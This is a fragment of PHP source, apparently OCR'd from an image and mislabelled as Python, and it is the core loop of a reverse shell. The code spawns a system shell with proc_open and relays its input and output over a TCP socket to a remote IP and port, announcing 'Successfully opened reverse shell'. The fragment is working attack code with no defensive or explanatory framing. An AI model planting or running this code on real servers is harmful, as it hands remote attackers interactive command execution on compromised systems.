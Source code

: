 ```python
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
```